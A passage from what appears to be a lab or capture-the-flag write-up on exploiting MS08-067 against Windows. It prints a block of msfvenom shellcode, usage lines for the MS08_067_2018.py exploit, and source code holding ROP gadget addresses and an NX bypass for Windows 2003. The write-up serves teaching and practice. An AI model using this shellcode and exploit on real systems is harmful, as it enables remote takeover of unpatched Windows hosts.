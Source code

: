     shellcode += "\x82\x20\xe0\xf4\x19\xe7\xbb\xb0\x71\xe3\xab\x19"
    shellcode += "\xc3\x20\xf3\xe8\x93\x78\x21\x81\x8a\x48\x90\x81"
    shellcode += "\x19\x9f\x21\xc9\x44\x9a\x55\x64\x53\x64\xa7\xc9"
    shellcode += "\x55\x93\x4a\xbd\x64\xa8\xd7\x30\xa9\xd6\x8e\xbd"
    shellcode += "\x76\xf3\x21\x90\xb6\xaa\x79\xae\x19\xa7\xe1\x43"
    shellcode += "\xca\xb7\xab\x1b\x19\xaf\x21\xc9\x42\x22\xee\xec"
    shellcode += "\xb6\xf0\xf1\xa9\xcb\xf1\xfb\x37\x72\xf4\xf5\x92"
    shellcode += "\x19\xb9\x41\x45\xcf\xc3\x99\xfa\x92\xab\xc2\xbf"
    shellcode += "\xe1\x99\xf5\x9c\xfa\xe7\xdd\xee\x95\x54\x7f\x70"
    shellcode += "\x02\xaa\xaa\xc8\xbb\x6f\xfe\x98\xfa\x82\x2a\xa3"
    shellcode += "\x92\x54\x7f\x98\xc2\xfb\xfa\x88\xc2\xeb\xfa\xa0"
    shellcode += "\x78\xa4\x75\x28\x6d\x7e\x3d\xa2\x97\xc3\xa0\xc2"
    shellcode += "\x9c\xa5\xc2\xca\x92\xaa\x11\x41\x74\xc1\xba\x9e"
    shellcode += "\xc5\xc3\x33\x6d\xe6\xca\x55\x1d\x17\x6b\xde\xc4"
    shellcode += "\x6d\xe5\xa2\xbd\x7e\xc3\x5a\x7d\x30\xfd\x55\x1d"
    shellcode += "\xfa\xc8\xc7\xac\x92\x22\x49\x9f\xc5\xfc\x9b\x3e"
    shellcode += "\xf8\xb9\xf3\x9e\x70\x56\xcc\x0f\xd6\x8f\x96\xc9"
    shellcode += "\x93\x26\xee\xec\x82\x6d\xaa\x8c\xc6\xfb\xfc\x9e"
    shellcode += "\xc4\xed\xfc\x86\xc4\xfd\xf9\x9e\xfa\xd2\x66\xf7"
    shellcode += "\x14\x54\x7f\x41\x72\xe5\xfc\x8e\x6d\x9b\xc2\xc0"
    shellcode += "\x15\xb6\xca\x37\x47\x10\x4a\xd5\xb8\xa1\xc2\x6e"
    shellcode += "\x07\x16\x37\x37\x47\x97\xac\xb4\x98\x2b\x51\x28"
    shellcode += "\xe7\xae\x11\x8f\x81\xd9\xc5\xa2\x92\xf8\x55\x1d"
    

I’ll take this shellcode into the script, and paste it in replacing the
default. I like to also paste in a comment above it with the `msfvenom`
command string I ran to generate it so that when I come back to it someday,
I’ll know what it’s doing.

#### Guess Version

The exploit requires that I know the version of Windows and the Language pack:

    
    
    Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
    Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
    Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
    Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
    Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
    Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
    Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
    

The exploit takes advantage of knowing where some little bits of code will be
in memory, and uses those bits on the path to shell. For different version of
Windows, the addresses of those gadgets will be different. For example, from
the source:

    
    
            elif (self.os == '4'):
                print 'Windows 2003 SP1 English\n'
                ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
                ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
                jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
                disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
                jumper = disableNXjumper % (
                    ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)
    
